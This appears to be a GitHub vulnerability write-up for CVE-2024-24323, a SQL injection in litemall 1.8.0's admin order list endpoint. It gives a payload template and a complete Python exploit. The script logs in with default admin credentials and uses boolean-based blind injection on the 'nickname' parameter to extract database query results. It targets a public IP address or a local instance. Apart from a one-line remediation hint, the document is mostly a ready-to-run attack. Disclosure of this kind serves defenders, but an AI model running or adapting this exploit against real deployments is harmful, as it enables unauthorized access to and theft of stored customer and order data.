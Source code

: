 # CVE-2024-24323

## Description
SQL injection vulnerability in linlinjava litemall v.1.8.0 allows a remote attacker to obtain sensitive information via the nickname,consignee, orderSN, orderStatusArray parameters of the AdminOrdercontroller.java component.

## Version
litemall <= 1.8.0

## Attack Process
1. Visit website `https://47.119.164.125/` or locally hosted site, `http://127.0.0.1:9527`, that you've set up yourself.
2. Be admin via admin123/admin123
3. SQLi will occur on the parameters `nickname`, `consignee`, `orderSN`, and `orderStatusArray` of the route `/admin/order/list`. Use payload which is similar to `%' and ascii(substr(({sql}),{num},1))>{mid} and '%' = '` where {sql} is the SQL query statement being executed.
4. Here is an example of EXP via parameter `nickname` .


## EXP
```
import requests

basic_url = "https://47.119.164.125"
# basic_url = "http://127.0.0.1:9527"

# the SQL query statement being executed
sql = "user()"

def bool_blind(sql, num):
    low = 32
    high = 128
    mid = (low+high)//2
    while low < high:
        route_path = f"/admin/order/list?page=1&limit=1&sort=add_time&order=desc&start=&end=&nickname=%' and ascii(substr(({sql}),{num},1))>{mid} and '%' = '"
        r = s.get(
            basic_url+route_path,
            verify=False
        )
        print(len(r.text))
        if len(r.text) < 100:
            high = mid
        else:
            low = mid+1
        mid=(low+high)//2
    if mid <= 32 or mid >= 127:
        return chr(mid)
    return chr(mid)

s = requests.Session()
# login
login_path = "/admin/auth/login"
r = s.post(
    basic_url+login_path, 
    json={
        "username": "admin123",
        "password": "admin123",
        "code": ""
    },
    verify=False
)
for l in range(20):
    route_path = f"/admin/order/list?page=1&limit=20&sort=add_time&order=desc&start=&end=&nickname=%' and length({sql})>{l} and '%' = '"
    print(basic_url + route_path)
    r = s.get(
        basic_url + route_path,
        verify=False
    )
    if len(r.text) < 100:
        break
print(l)

res = ""
for i in range(l+1):
    res += bool_blind(sql,i)
print(res)
```

## Suggestion
Use `#{value}` to automatically handle escaping special characters.